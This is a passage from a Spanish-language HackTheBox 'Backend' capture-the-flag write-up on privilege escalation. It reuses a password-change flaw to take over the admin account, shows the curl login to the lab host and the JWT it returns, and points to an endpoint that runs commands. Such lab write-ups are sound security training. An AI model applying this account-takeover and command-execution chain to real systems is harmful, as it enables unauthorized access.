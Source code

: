 # Escalada

Es posible modificar la contraseña de cualquier usuario proporcionando su ```guid```. Modifico la de ```admin```

<img src="/writeups/assets/img/Backend-htb/5.png" alt="">

Ahora puedo iniciar sesión y obtener un nuevo JWT

```null
curl -s -X POST http://10.10.11.161/api/v1/user/login -d 'username=admin@htb.local&password=pwned123' | jq
{
  "access_token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjk3ODEwODk4LCJpYXQiOjE2OTcxMTk2OTgsInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQifQ.mU5_m_ktg4qJz5dKSx43MW3tpodKHjbMivcBXJsrdq0",
  "token_type": "bearer"
}
```

Este usuario tiene un ```endpoint``` que permite ejecutar comandos

<img src="/writeups/assets/img/Backend-htb/6.png" alt="">

